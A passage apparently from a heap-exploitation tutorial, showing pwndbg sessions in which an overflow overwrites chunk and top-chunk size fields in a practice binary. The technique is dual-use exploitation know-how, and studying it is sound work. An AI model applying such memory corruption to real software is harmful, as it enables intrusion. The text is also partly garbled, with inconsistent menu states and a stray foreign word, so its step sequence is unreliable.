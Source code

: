 Top chunk size has been overwritten, but this time we're not limited to overwriting just the top chunk size field, we can also target size fields belonging to other chunks.

```
pwndbg> vis

pwndbg> c

1) malloc 1/2
2) edit
3) free
4) quit
> 1
size: 0x88

1) malloc 2/2
2) edit
3) free
4) quit
> ^C


0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757020	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757030	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757040	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757050	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757060	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757070	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757080	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x555555757090	0x4141414141414141	0x0000000000000091	AAAAAAAA........
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000a414140b1	.........@AA....	 <-- Top chunk

```

Now shows us what we'd expect, two 0x90-sized chunks followed by a now corrupted top chunk 

```
pwndbg> c
Continuando.
2
index: 0
data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

1) malloc 2/2
2) edit
3) free
4) quit
> 
1) malloc 2/2
2) edit
3) free 
4) quit
> ^C

```